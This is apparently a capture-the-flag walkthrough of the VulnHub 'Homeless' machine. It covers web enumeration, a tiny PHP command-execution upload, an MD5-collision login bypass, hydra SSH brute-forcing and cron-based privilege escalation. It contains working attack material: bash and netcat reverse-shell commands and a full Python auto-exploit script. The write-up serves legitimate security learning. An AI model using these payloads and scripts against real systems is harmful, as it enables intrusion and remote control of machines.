

Introduction (Got from the vulnhub homeless page)

I'm really interesting about security, love to learn new technologies and play CTF sometime. I've been enjoying creating hacking challenges for the security community. This is my first Challenge of boot2root, I was created some web challenge and solved others. I hope you will get some knowledges about my challenge. Thanks u Laiwon . I love you.

Difficulty

Difficulty level to get limited shell: Intermediate or advanced

Difficulty level for privilege escalation: Depend on You.

Goal

You will be required to break into target server,exploit and root the machine, and retrieve the flag. The flag will contain more information about my private info..

Hints

This challenge is not for beginners. There is a relevant file on this machine that plays an important role in the challenge, do not waste your time trying to de-obfuscate the file, If you got big stuck, Try with Password start with "sec*" with nice wordlist. Ok.. Try Harder!.. 

# Diagram



# Enumeration

Let's get the box ip with `arp-scan`

```sh
arp-scan -I eth1 192.168.56.100/24
```


First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 192.168.56.157 -p-
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


Just a normal page

The only page we can do something interesting as input data is the contact tab


### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore. I use zip, because I know that possible we will need to get the source code from anywhere.

```sh
gobuster dir -t 100 -u http://192.168.56.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,zip
```


## User-Agent

That's weird, the user-agent is being printed on the page


Send to burpsuite and repeater. See that we can manipulate it


So we try to fuzz it with wfuzz

```sh
wfuzz -z file,list.txt --hw 651 -H "User-Agent: FUZZ" http://192.168.56.157/
```


We see that the user-agent `cyberdog` shows a different page


## myuploader_priv

And we found a place to upload files!


File is too large


The maxium I can send is this


We could try

```php
<?=`$_GET[1]`?>
```

But which worked was

Reference [1](https://www.php.net/manual/en/language.operators.execution.php) and [2](https://www.php.net/manual/en/language.basic-syntax.phptags.php)

```php
<?=`ls`;
```

And we get it working


We get the txt file


# Login Portal

Now we have access to a new login portal


We click in `Need a Hint` and download a php file

```php
<?php
session_start();
error_reporting(0);
    if (@$_POST['username'] and @$_POST['password'] and @$_POST['code'])
    {
        $username = (string)$_POST['username'];
        $password = (string)$_POST['password'];
        $code     = (string)$_POST['code'];
        if (($username == $password ) or ($username == $code)  or ($password == $code)) {
            echo 'Your input can not be the same.';
        } else if ((md5($username) === md5($password) ) and (md5($password) === md5($code)) ) {
            $_SESSION["secret"] = '133720';
            header('Location: admin.php');  
            exit();
        } else {
            echo "<pre> Invalid password </pre>";
        }
    }
?>
```

What we see here? We have tree fields to be filed. Username, password and code. They cannot be the same and they are md5 hashed. So what we need to find is three different words that will get the same md5 hash, a hash colision

## Hash Colision

We found [this](https://github.com/thereal1024/python-md5-collision) respository which can help us

We clone locally


We execute it and generate a bunch of files with the same md5 hash


We will send then with curl, because it's binary, and send over the burp, to see how the request in being formated

```sh
curl --data-urlencode username@./out_test_001.txt --data-urlencode password@./out_test_002.txt --data-urlencode code@./out_test_003.txt --data-urlencode "remember=1&login=Login" http://192.168.56.157/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php -i --proxy 127.0.0.1:8080 -s
```


It's a big request, but's okay


And we see that we can get it, and get one cookie


And we get "logged in"


# Reverse Shell

We have a way to execute commands on this box, but to get a reverse shell with nc was not possible because of the firewall configuration

We create a shell file on the file system

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.56.153/448 0>&1' > /tmp/rev.sh
```


And get a reverse shell


Now let's automate it!

# Auto Reverse Shell

We will use our python skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it's


auto_rev.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - Homeless - VulnHub

import argparse
import requests
import sys
import urllib.parse
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to bypass the authentication
def authBypass(rhost):
    print("[+] Let's Bypass the Auth !! [+]")
    url = "http://%s:80/d5fa314e8577e3a7b8534a014b4dcb221de823ad/index.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username" : "Hello%20world.%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%D4XA%3DM%0A%25%CF%01B7%BE%10%9FD%9A%18J%BB%E2%EC%E1%A7%F1%12r%3F~%2F%A6%94%D0%A4%E4%D0%ED%EC%AC%FD%0E%8FF%CBb%D1%7D%FD0y%7BT%11%94%0A%85XW%8CW%81%83%0E%3D%19s%0D%AE%80%C3j%A7%21%FE%14%3E%FB%3A%12RS%D7S%85D%3F%2B1z~%D7%DFK%5B%9CKAbT%C1%8E%86%A7r%16%DC%93%EBx%E2%06%F1%0C%8B%B5f%3F%B0%938%B0i~%D9%CCw%19%12%F4More%20text%3A%200%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%D5%A7n%09lh%247%D4%F6%DB%A1W%B7%EC%F9%B7%C5j%CD%09%1F%0C%1C%02%CE%80%E1%EF%C3%1B%06%40%A9%CE%EAS%E5%A7%9A%EF%23l%DC%D2%C5%5E%B3%B3%0Cw%AD%BC%04%9D-yd%F0Z%DC%FF%B1%F4N6%B0%8C%D5%B5%9E%A2%C7%88%88%E8c%01%CCO%BC%FD%04O%2A%FE%80Z%C9%DB%F2%C0%D5ay%B2%81i%9F%C2%19%3F%8E%D7%C5U%BC%CF%97%B2V%82%0E%B1%A3%073%CD%06%25%1F%99%C8%97H%A7%D0vMore%20text%3A%201%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E3_%7D%22%221%5BC%B9%AE%8C%B7%8A%C4%9DM%81%E8%AE%C2%8D%AC%80%DFQ%E6A%A5%B96%0F%E2%FA%B3%B9%01%F2%0D%AA%14k0g%F9%BE%21M%FD%7F%A2u1%E7%0E%26%9B6%A4%3Ce%0F%93%CE%A5%03%BEO%06%CDkN%27D%A6%02%8A%99C%96%8D%1D%93%8C%A6%90%AC4%ED%28i%9F%E5%D0%CB%01%8D%99%80~%DF%876u%A5%0A4%19%B2%83%9C%12%7D%F3T0%17%8A%D4%23k%9B%E8%60%D1%3F%F7%FB%B4More%20text%3A%202%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%CE%5E%22%DB%DB%0C%8C%FDa%BA%8B%B3%2A%E5%91%5EP%0AY%F8%8Df%F6%8B%06%929i%B0%B0%AA%07%09%E1%B5%18R%CE%D7%F4o%E0g%3A2%CAMk%25%9B%1C%DEp05%9A%15%B4%B7c%DAA%7D2%11%9A%1C%04%27%03.%F4%E2s%BC%C8%16h%B55%9F%F3Fz%DFxi%1F%7C%C9%8B%CF%5B%5DEA%ED%B6%C4%8Dv%EA%8B%3E%DC%97k%11%D0%B7%FBD%18%BE%87%3F%03%F0%F6%83%10%F7%C5%ED%27%E4%C1jMore%20text%3A%203%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20fQ%A99%0D%FE%AB%03%FDx%8E%C8g%C4%CD%15%5D%F2-%23Dt%CF%9AC%CEz%A93%0C%08%19%3E%FD%F9%C8L.h%05%E7%C7h%1A%DE%09%7B%95%E7%F0k%BF%B0%EA%8C%C2%BE%F5vMc%FC1g%23%DE%0D%AFQ%86%E0%0D%01O%19%D8%CA%EBK%AC%C1%8CAn%DF%27%7F%2Bn%2B%8C%DBK%A0%A5A%26%B8%ACn%84%0C%83%F7%5D%96oqpY~%1Fuu%BE%ED%8C%92%3F%BD%1E3%04u%CD%EBE%ACMore%20text%3A%204%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20j%3D%BD%DE%D6%93%B3C%7DK%8A%7CL6%CF%0E%DF%5B%5D%14Y%3A%E4%A2C%D6%3A5%D0%05%12%CD%BB%C3%FA%ED%E0L%D9xk%CE%B9%F9%E1%B3%F8ax%E3J%047%C8m%94%E1%81%24y%25bW%BD%0E%D6%8D%B8%97c%D9%A1%0D%0D%AC%88%BB%3DEo4_%40%83%0FfF%2A%CBZ%FE%CA%EC%07%E2%EF%8E%C4%C6%19%06W%08%0FzOi%CF%A9%AC%09o%28%1C%A6%B4%B83%2Ah%BF%60%BA%04%23.%25%1EMore%20text%3A%205%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%85aE%EDT%A1%C6t%874t%875%607%13%B0q%1C%B0%289%15%90D%D28bR%0E%A0%F13%FE%FF%D1%CC%B0%DF%EF%8B%02%D9a%11%FA%ED3S%12Ja%20%EBL%1E%F0%A9%A5%9C%8C%DB%17%03%D1%08%11%09%01X%3C%5D%3B%E1%0B%B5M3%A2Y%A8%8A%81g%23%3D%01%5E%E1%3B%15%CD%D4pY%B2%BF%87%17%D7g%06%9F%20%5BQ%AC%CFM%9Eg%C6%82P%B5%FBm3%D0%EDH%AF%83%93%1Ci%C1%01More%20text%3A%206%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%F4%C5j%F5%12C%2Fa%8BZ%B6%8E8%F8%C6%3C%ED%10%F9_M%EDt%C07n%81%B1%B5%A1%BC%BA%D6%FB%FD%E9%CC%5E%7B%F2%0FDur%9F76%14%A7%11C%AB%25%26%5E%01%A9%E8%2F%28%FD%A6%8Ah%5C%C6%CD%40%CA%9CQ%F3%A9%19%C9%40%5BM%5D%13%BC%5C%87%97%27%06%1E%E7%CBZ%F6M%ECG%DEmpK%9E%9B%04%18%E7%03%B8j87%B8%A8F%EE%20%90R%80%F28%20%81%E9%DDP%A7iR%D9%DCMore%20text%3A%207%0A%0AFinal." , "password" : "Hello%20world.%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%D4XA%3DM%0A%25%CF%01B7%BE%10%9FD%9A%18J%BB%E2%EC%E1%A7%F1%12r%3F~%2F%A6%94%D0%A4%E4%D0%ED%EC%AC%FD%0E%8FF%CBb%D1%7D%FD0y%7BT%11%94%0A%85XW%8CW%81%83%0E%3D%19s%0D%AE%80%C3j%A7%21%FE%14%3E%FB%3A%12RS%D7S%85D%3F%2B1z~%D7%DFK%5B%9CKAbT%C1%8E%86%A7r%16%DC%93%EBx%E2%06%F1%0C%8B%B5f%3F%B0%938%B0i~%D9%CCw%19%12%F4More%20text%3A%200%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%D5%A7n%09lh%247%D4%F6%DB%A1W%B7%EC%F9%B7%C5j%CD%09%1F%0C%1C%02%CE%80%E1%EF%C3%1B%06%40%A9%CE%EAS%E5%A7%9A%EF%23l%DC%D2%C5%5E%B3%B3%0Cw%AD%BC%04%9D-yd%F0Z%DC%FF%B1%F4N6%B0%8C%D5%B5%9E%A2%C7%88%88%E8c%01%CCO%BC%FD%04O%2A%FE%80Z%C9%DB%F2%C0%D5ay%B2%81i%9F%C2%19%3F%8E%D7%C5U%BC%CF%97%B2V%82%0E%B1%A3%073%CD%06%25%1F%99%C8%97H%A7%D0vMore%20text%3A%201%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E3_%7D%22%221%5BC%B9%AE%8C%B7%8A%C4%9DM%81%E8%AE%C2%8D%AC%80%DFQ%E6A%A5%B96%0F%E2%FA%B3%B9%01%F2%0D%AA%14k0g%F9%BE%21M%FD%7F%A2u1%E7%0E%26%9B6%A4%3Ce%0F%93%CE%A5%03%BEO%06%CDkN%27D%A6%02%8A%99C%96%8D%1D%93%8C%A6%90%AC4%ED%28i%9F%E5%D0%CB%01%8D%99%80~%DF%876u%A5%0A4%19%B2%83%9C%12%7D%F3T0%17%8A%D4%23k%9B%E8%60%D1%3F%F7%FB%B4More%20text%3A%202%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%CE%5E%22%DB%DB%0C%8C%FDa%BA%8B%B3%2A%E5%91%5EP%0AY%F8%8Df%F6%8B%06%929i%B0%B0%AA%07%09%E1%B5%18R%CE%D7%F4o%E0g%3A2%CAMk%25%9B%1C%DEp05%9A%15%B4%B7c%DAA%7D2%11%9A%1C%04%27%03.%F4%E2s%BC%C8%16h%B55%9F%F3Fz%DFxi%1F%7C%C9%8B%CF%5B%5DEA%ED%B6%C4%8Dv%EA%8B%3E%DC%97k%11%D0%B7%FBD%18%BE%87%3F%03%F0%F6%83%10%F7%C5%ED%27%E4%C1jMore%20text%3A%203%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20fQ%A99%0D%FE%AB%03%FDx%8E%C8g%C4%CD%15%5D%F2-%23Dt%CF%9AC%CEz%A93%0C%08%19%3E%FD%F9%C8L.h%05%E7%C7h%1A%DE%09%7B%95%E7%F0k%BF%B0%EA%8C%C2%BE%F5vMc%FC1g%23%DE%0D%AFQ%86%E0%0D%01O%19%D8%CA%EBK%AC%C1%8CAn%DF%27%7F%2Bn%2B%8C%DBK%A0%A5A%26%B8%ACn%84%0C%83%F7%5D%96oqpY~%1Fuu%BE%ED%8C%92%3F%BD%1E3%04u%CD%EBE%ACMore%20text%3A%204%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20j%3D%BD%DE%D6%93%B3C%7DK%8A%7CL6%CF%0E%DF%5B%5D%14Y%3A%E4%A2C%D6%3A5%D0%05%12%CD%BB%C3%FA%ED%E0L%D9xk%CE%B9%F9%E1%B3%F8ax%E3J%047%C8m%94%E1%81%24y%25bW%BD%0E%D6%8D%B8%97c%D9%A1%0D%0D%AC%88%BB%3DEo4_%40%83%0FfF%2A%CBZ%FE%CA%EC%07%E2%EF%8E%C4%C6%19%06W%08%0FzOi%CF%A9%AC%09o%28%1C%A6%B4%B83%2Ah%BF%60%BA%04%23.%25%1EMore%20text%3A%205%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%85aE%EDT%A1%C6t%874t%875%607%13%B0q%1C0%289%15%90D%D28bR%0E%A0%F13%FE%FF%D1%CC%B0%DF%EF%8B%02%D9a%11z%EE3S%12Ja%20%EBL%1E%F0%A9%A5%1C%8C%DB%17%03%D1%08%11%09%01X%3C%5D%3B%E1%0B%B5M3%A2Y%A8%8A%81%E7%23%3D%01%5E%E1%3B%15%CD%D4pY%B2%BF%87%17%D7g%06%9F%20%5BQ%AC%CFM%1Eg%C6%82P%B5%FBm3%D0%EDH%AF%83%13%1Ci%C1%01More%20text%3A%206%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%F4%C5j%F5%12C%2Fa%8BZ%B6%8E8%F8%C6%3C%ED%10%F9%DFM%EDt%C07n%81%B1%B5%A1%BC%BA%D6%FB%FD%E9%CC%5E%7B%F2%0FDur%9F%B75%14%A7%11C%AB%25%26%5E%01%A9%E8%2F%A8%FD%A6%8Ah%5C%C6%CD%40%CA%9CQ%F3%A9%19%C9%40%5BM%5D%13%BC%5C%87%17%27%06%1E%E7%CBZ%F6M%ECG%DEmpK%9E%9B%04%18%E7%03%B8j87%B8%28G%EE%20%90R%80%F28%20%81%E9%DDP%27iR%D9%DCMore%20text%3A%207%0A%0AFinal." , "code" : "Hello%20world.%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%D4XA%3DM%0A%25%CF%01B7%BE%10%9FD%9A%18J%BB%E2%EC%E1%A7%F1%12r%3F~%2F%A6%94%D0%A4%E4%D0%ED%EC%AC%FD%0E%8FF%CBb%D1%7D%FD0y%7BT%11%94%0A%85XW%8CW%81%83%0E%3D%19s%0D%AE%80%C3j%A7%21%FE%14%3E%FB%3A%12RS%D7S%85D%3F%2B1z~%D7%DFK%5B%9CKAbT%C1%8E%86%A7r%16%DC%93%EBx%E2%06%F1%0C%8B%B5f%3F%B0%938%B0i~%D9%CCw%19%12%F4More%20text%3A%200%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%D5%A7n%09lh%247%D4%F6%DB%A1W%B7%EC%F9%B7%C5j%CD%09%1F%0C%1C%02%CE%80%E1%EF%C3%1B%06%40%A9%CE%EAS%E5%A7%9A%EF%23l%DC%D2%C5%5E%B3%B3%0Cw%AD%BC%04%9D-yd%F0Z%DC%FF%B1%F4N6%B0%8C%D5%B5%9E%A2%C7%88%88%E8c%01%CCO%BC%FD%04O%2A%FE%80Z%C9%DB%F2%C0%D5ay%B2%81i%9F%C2%19%3F%8E%D7%C5U%BC%CF%97%B2V%82%0E%B1%A3%073%CD%06%25%1F%99%C8%97H%A7%D0vMore%20text%3A%201%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E3_%7D%22%221%5BC%B9%AE%8C%B7%8A%C4%9DM%81%E8%AE%C2%8D%AC%80%DFQ%E6A%A5%B96%0F%E2%FA%B3%B9%01%F2%0D%AA%14k0g%F9%BE%21M%FD%7F%A2u1%E7%0E%26%9B6%A4%3Ce%0F%93%CE%A5%03%BEO%06%CDkN%27D%A6%02%8A%99C%96%8D%1D%93%8C%A6%90%AC4%ED%28i%9F%E5%D0%CB%01%8D%99%80~%DF%876u%A5%0A4%19%B2%83%9C%12%7D%F3T0%17%8A%D4%23k%9B%E8%60%D1%3F%F7%FB%B4More%20text%3A%202%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%CE%5E%22%DB%DB%0C%8C%FDa%BA%8B%B3%2A%E5%91%5EP%0AY%F8%8Df%F6%8B%06%929i%B0%B0%AA%07%09%E1%B5%18R%CE%D7%F4o%E0g%3A2%CAMk%25%9B%1C%DEp05%9A%15%B4%B7c%DAA%7D2%11%9A%1C%04%27%03.%F4%E2s%BC%C8%16h%B55%9F%F3Fz%DFxi%1F%7C%C9%8B%CF%5B%5DEA%ED%B6%C4%8Dv%EA%8B%3E%DC%97k%11%D0%B7%FBD%18%BE%87%3F%03%F0%F6%83%10%F7%C5%ED%27%E4%C1jMore%20text%3A%203%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20fQ%A99%0D%FE%AB%03%FDx%8E%C8g%C4%CD%15%5D%F2-%23Dt%CF%9AC%CEz%A93%0C%08%19%3E%FD%F9%C8L.h%05%E7%C7h%1A%DE%09%7B%95%E7%F0k%BF%B0%EA%8C%C2%BE%F5vMc%FC1g%23%DE%0D%AFQ%86%E0%0D%01O%19%D8%CA%EBK%AC%C1%8CAn%DF%27%7F%2Bn%2B%8C%DBK%A0%A5A%26%B8%ACn%84%0C%83%F7%5D%96oqpY~%1Fuu%BE%ED%8C%92%3F%BD%1E3%04u%CD%EBE%ACMore%20text%3A%204%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20j%3D%BD%DE%D6%93%B3C%7DK%8A%7CL6%CF%0E%DF%5B%5D%14Y%3A%E4%A2C%D6%3A5%D0%05%12%CD%BB%C3%FA%ED%E0L%D9xk%CE%B9%F9%E1%B3%F8ax%E3J%047%C8m%94%E1%81%24y%25bW%BD%0E%D6%8D%B8%97c%D9%A1%0D%0D%AC%88%BB%3DEo4_%40%83%0FfF%2A%CBZ%FE%CA%EC%07%E2%EF%8E%C4%C6%19%06W%08%0FzOi%CF%A9%AC%09o%28%1C%A6%B4%B83%2Ah%BF%60%BA%04%23.%25%1EMore%20text%3A%205%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%85aE%EDT%A1%C6t%874t%875%607%13%B0q%1C0%289%15%90D%D28bR%0E%A0%F13%FE%FF%D1%CC%B0%DF%EF%8B%02%D9a%11z%EE3S%12Ja%20%EBL%1E%F0%A9%A5%1C%8C%DB%17%03%D1%08%11%09%01X%3C%5D%3B%E1%0B%B5M3%A2Y%A8%8A%81%E7%23%3D%01%5E%E1%3B%15%CD%D4pY%B2%BF%87%17%D7g%06%9F%20%5BQ%AC%CFM%1Eg%C6%82P%B5%FBm3%D0%EDH%AF%83%13%1Ci%C1%01More%20text%3A%206%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%F4%C5j%F5%12C%2Fa%8BZ%B6%8E8%F8%C6%3C%ED%10%F9_M%EDt%C07n%81%B1%B5%A1%BC%BA%D6%FB%FD%E9%CC%5E%7B%F2%0FDur%9F76%14%A7%11C%AB%25%26%5E%01%A9%E8%2F%28%FD%A6%8Ah%5C%C6%CD%40%CA%9CQ%F3%A9%19%C9%40%5BM%5D%13%BC%5C%87%97%27%06%1E%E7%CBZ%F6M%ECG%DEmpK%9E%9B%04%18%E7%03%B8j87%B8%A8F%EE%20%90R%80%F28%20%81%E9%DDP%A7iR%D9%DCMore%20text%3A%207%0A%0AFinal." , "remember" : "1%26login%3DLogin"}
    payload_str = urllib.parse.urlencode(data, safe="%", encoding=None)
    r.post(url, headers=headers, data=payload_str, proxies=proxies)
    print("[+] Logged In ! [+]")

# Just get the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Let's Get Reverse Shell ! [+]")
    url = "http://%s:80/d5fa314e8577e3a7b8534a014b4dcb221de823ad/admin.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    # Plant the malicous shell file
    data = {"command": "echo '#!/bin/bash\\n\\nbash -i >& /dev/tcp/%s/%s 0>&1' > /tmp/rev.sh" %(lhost,lport), "submit": "Submit Query"}
    r.post(url, headers=headers, cookies=r.cookies, data=data)
    # Execute it!
    data = {"command": "bash /tmp/rev.sh", "submit": "Submit Query"}
    r.post(url, headers=headers, cookies=r.cookies, data=data)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local IP', required=True)
    parser.add_argument('-lp', '--localport', help='Local Port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Bypass the auth
    authBypass(rhost)
    # Plant and execute the reverse shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

### www-data -> Downfall

We need to become downfall now


Remember a phrase from the box author:

```
"If you got big stuck, Try with Password start with "sec*"
```

So, we create a wordlist based on rockyou with all words starting with sec

```sh
cat /usr/share/wordlists/rockyou.txt | grep ^sec > wordlist.txt
```


Now we use hydra to bruteforce the password

```bash
hydra -l downfall -P wordlist.txt ssh://192.168.56.157 -t 20
```


And we found the password! `secretlyinlove`

So, we ssh in the box

# downfall -> Root

Now, let's become root


I saw that this user is able to edit `/lib/logs/homeless.py`. On top of that, there's a cron job running in the context of root every minute, executing:


We just add in the top of that a reverse python shell

```py
#!/usr/bin/env python
os.system("/bin/nc 192.168.56.153 444 -e /bin/bash")
```


And after one minute, we got a reverse root shell


# Code Analysis

Let's dump the /var/www/html folder to make a simple code analysis on this box

```sh
zip -r web.zip html/
```


```sh
python -m SimpleHTTPServer 8000
wget 192.168.56.157:8000/web.zip
```


We unzip ip

```sh
unzip web.zip
```


Let's see how the upload are working

`myuploader_priv/index.php`


```php
<?php
if($_SERVER['REQUEST_METHOD'] === "POST" && @$_POST['submit']){
        $filename = $_FILES["upme"]["name"];
        $des = 'files/' . basename($_FILES["upme"]["name"]);
        $filesize = $_FILES['upme']['size'];

        if($filesize > 8){
                echo "Your file is too large";
        }else{
                system("find files ! -name '887beed152a3e8f946857bade267bb19d159ef59.txt' ! -name 'index.php' -type f -exec rm -f {} +");
                if(move_uploaded_file($_FILES['upme']['tmp_name'], $des)){
                        echo "File uploaded. Find the secret file on server .. files/".$filename;
                }
        }
}
?>
```

We can see here what is happening on the file system. It test the filesize of the uploaded file, it must be in the max 8 bytes. That's why we cannot put a file with more than eight bytes. And them delete all the files in the files folder, keeping just the two above.

Now the admin panel, it's the same we see earlier, so, don't need to explain here


The command panel just execute the cmd we pass as post request


We see on the index.php of the main page how it triggers the cyberdog user agent

